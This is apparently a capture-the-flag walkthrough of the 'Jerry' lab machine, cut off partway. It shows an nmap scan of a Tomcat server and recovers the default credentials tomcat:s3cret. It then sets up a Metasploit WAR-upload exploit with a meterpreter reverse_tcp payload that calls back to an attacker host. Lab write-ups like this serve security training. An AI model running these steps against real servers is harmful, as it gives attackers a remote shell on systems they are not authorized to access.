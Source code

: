 ![jerry]()

## Enumeration

\
Start with an nmap scan:

\
```
nmap -A 10.10.10.95
```

\
```
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-07-26 15:18 EDT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.96 ms 10.10.14.1
2   104.81 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.45 seconds
```

\
Looks like the only port open is 8080, which is running Apache Tomcat 1.1.  Some research pointed me to a [metasploit module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) for logging into Apache Tomcat using default credentials.  Using this I got the credentials tomcat:s3cret.  Now we can use the [tomcat manager authenticated upload module](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component:

\
```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 10.10.10.95:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 10.10.14.232
lhost => 10.10.14.232
```

\


